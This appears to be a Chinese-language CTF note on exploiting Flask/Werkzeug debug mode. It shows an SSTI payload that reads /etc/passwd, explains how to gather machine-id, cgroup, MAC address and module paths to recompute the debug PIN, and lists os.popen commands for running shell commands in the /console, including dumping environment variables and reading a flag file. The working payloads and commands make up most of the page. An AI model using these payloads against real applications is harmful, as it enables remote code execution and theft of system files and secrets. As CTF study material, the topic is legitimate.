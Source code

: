 Flask模板注入中debug模式下pin码的获取和利用:
## **什么是pin码**
pin码是flask在开启debug模式下，进行代码调试模式所需的进入密码，需要正确的PIN码才能进入调试模式，可以理解为自带的webshell。
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce


729-315-842


## **pin码生成要六要素**
通常任意文件读取ssti：
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```
1.username在可以任意文件读的条件下读/etc/passwd进行猜测
2.modname 默认 flask.app
3.appname 默认Flask
4.moddir flask库下app.py的绝对路径,可以通过报错拿到,如传参的时候给个不存在的变量，乱传ssti
5.uuidnode mac地址的十进制
```
任意文件读/sys/class/net/ethe/address或具体ls查看
/sys/class/net/eth0/address
/sys/class/net/ens33/address 去掉冒号后int("c2f233c6de75",16)转换为十进制
```
6.machine_id 机器码 
```
machine-id 基于不同版本有不同的算法
machine_id由三个合并(docker就后两个)：1./etc/machine-id 2./proc/sys/kernel/random/boot_id 3./proc/self/cgroup

在werkzeug 1.0.0rc1之前为:
docker环境: /proc/self/cgroup 列表里面…/docker/后面的内容
非docker: /etc/machine-id或/proc/sys/kernel/random/boot_id的内容

在werkzeug 1.0.0rc1及之后为:
/etc/machine-id或/proc/sys/kernel/random/boot_id
+
/proc/self/cgroup
```
![](.topwrite/assets/image_1736668157595.png)
然后通过程序生成pin。
生成pin码也有md5和sha1算法两种。

^
## **控制台利用**
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce
```
import os
os.popen('env').read()

os.popen("ls -l /").read()
os.popen("cat /this_is_the_flag.txt").read()


__import__('os').popen("env").read()
```



![](.topwrite/assets/image_1728027706412.png)
^
<https://blog.csdn.net/rfrder/article/details/110240245>

<https://www.cnblogs.com/MisakaYuii-Z/p/12407760.html>